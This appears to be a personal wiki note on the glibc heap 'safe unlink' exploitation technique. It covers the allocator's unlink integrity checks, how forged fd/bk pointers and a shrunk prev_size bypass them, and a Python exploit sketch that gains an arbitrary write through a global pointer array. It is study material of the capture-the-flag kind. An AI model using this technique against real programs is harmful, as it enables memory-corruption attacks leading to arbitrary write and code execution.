 ## Implementation

Safe unlink is a bypass of [[Unsafe unlink 2.3.4]]'s mitigations.
Those mitigation are the following:

|NAME|MITIGATION|
|---|---|
|Corrupted size vs prev size|<pre><code>chunksize(p) != prev_size(next_chunk(p))</code></pre>|
|Corrupted double-linked list|<pre><code>fd->bk != p \|\| bk-fd != p</code></pre>|
|Corrupted double-linked list (not small)|<pre><code>p->fd_nextsize->bk_nextsize != p \|\| p->bk_nextsize->fd_nextsize != p</code></pre>|


In order to bypass the corrupted double-linked list mitigation, we have to find in memory a pointer equal to our victim chunk's address, that can also later be used by the program as a write primitive.
That can be anything that stores victim chunk's address and dereferences it later to write in its pointed area.
That way, using the [[Unsafe unlink 2.3.4]] technique, we can overwrite this pointer with a value of our choice. We can then leverage the program's ability to write to this newly controlled pointer to achieve arbitrary write.

But since the first target pointer will likely point to the victim's chunk data address, it will be offset 0x10 bytes from the actual chunk's address. So we need to trick free into thinking the the victim chunk's address is actualy 0x10 bytes smaller than it realy is by soustracting 0x10 bytes to the prev_size field, so that the victim chunk's data address becomes the actual victim chunk's address when free uses the prev_size field to calculate the previous chunk's address. In order to pass corrupted size vs prev size check, we also need to make sure that our size field is updated accordingly to this chunk's size reduction.


### Exploit example
```python
# Request 2 small chunks.
chunk_A = malloc(0x88)
chunk_B = malloc(0x88)

# Address that points to our chunk
fd = elf.sym.m_array - 0x18
bk = elf.sym.m_array - 0x10

prev_size = 0x90 - 0x10 # soustract 0x10 to fake a chunk at the address of our chunk's data
fake_size = 0x90

# Take in consideration that we changed our prev_size to match our chunk's data address
edit(chunk_A, p64(0) + p64(0x80) + p64(fd) + p64(bk) + p8(0)*0x60 + p64(prev_size) + p64(fake_size))

# Trigger consolidation
free(chunk_B)

# Overwrite m_array[0] to our target, it currently points to m_array[0]-0x18 (fd) thanks to consolidation
edit(0, p64(0)*3 + p64(elf.sym.target))

# Write content of our target
edit(0, b"qwe")
```

## Mitigation

No mitigation have currently been implemented.